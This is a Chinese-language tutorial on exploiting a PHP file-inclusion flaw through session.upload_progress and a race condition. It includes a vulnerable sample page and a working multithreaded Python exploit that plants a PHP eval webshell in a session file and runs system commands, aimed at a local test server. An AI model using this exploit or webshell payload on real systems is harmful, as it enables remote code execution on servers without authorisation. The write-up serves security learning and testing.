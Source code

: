 ### 测试环境

> php5.5.38
>
> win10
>
> 关于session相关的一切配置都是默认值

### 示例代码

```auto
<?php$b=$_GET['file'];include "$b";?>
```

可以发现，存在一个文件包含漏洞，但是找不到一个可以包含的恶意文件。其实，我们可以利用`session.upload_progress`将恶意语句写入session文件，从而包含session文件。前提需要知道session文件的存放位置。

### 分析

**问题一**

代码里没有`session_start()`,如何创建session文件呢。

**解答一**

其实，如果`session.auto_start=On` ，则PHP在接收请求的时候会自动初始化Session，不再需要执行session\_start()。但默认情况下，这个选项都是关闭的。

但session还有一个默认选项，session.use\_strict\_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess\_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload\_progress.prefix")+由我们构造的session.upload\_progress.name值组成，最后被写入sess\_文件里。

**问题二**

但是问题来了，默认配置`session.upload_progress.cleanup = on`导致文件上传后，session文件内容立即清空，

**如何进行rce呢？**

**解答二**

此时我们可以利用竞争，在session文件内容清空前进行包含利用。

### 利用脚本

```auto
#coding=utf-8import ioimport requestsimport threadingsessid = 'TGAO'data = {"cmd":"system('whoami');"}def write(session):    while True:        f = io.BytesIO(b'a' * 1024 * 50)        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )def read(session):    while True:        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)        if 'tgao.txt' in resp.text:            print(resp.text)            event.clear()        else:            print("[+++++++++++++]retry")if __name__=="__main__":    event=threading.Event()    with requests.session() as session:        for i in xrange(1,30):             threading.Thread(target=write,args=(session,)).start()        for i in xrange(1,30):            threading.Thread(target=read,args=(session,)).start()    event.set()
```

效果如下图
